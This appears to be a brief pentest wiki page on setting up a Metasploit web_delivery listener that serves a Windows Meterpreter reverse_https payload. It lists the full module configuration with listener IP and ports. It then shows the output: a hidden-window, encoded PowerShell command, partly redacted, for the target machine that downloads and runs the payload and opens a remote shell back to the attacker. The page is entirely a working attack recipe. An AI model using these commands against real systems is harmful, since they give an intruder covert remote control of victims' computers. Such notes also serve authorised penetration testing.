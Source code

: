 <!-- TITLE: Meterpreterwebdelivery -->
<!-- SUBTITLE: A quick summary of Meterpreterwebdelivery -->

(based on https://github.com/jaredhaight/Invoke-MetasploitPayload)
# Set Up Listener
```use exploit/multi/script/web_delivery
set SRVHOST 192.168.10.113
set SRVPORT 8443
set target 2
set URIPATH met-payload
set payload windows/meterpreter/reverse_https
set LHOST 192.168.10.113
set LPORT 443
run -j

[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAu<REDACTED>QAnACkAKQA7AA==
```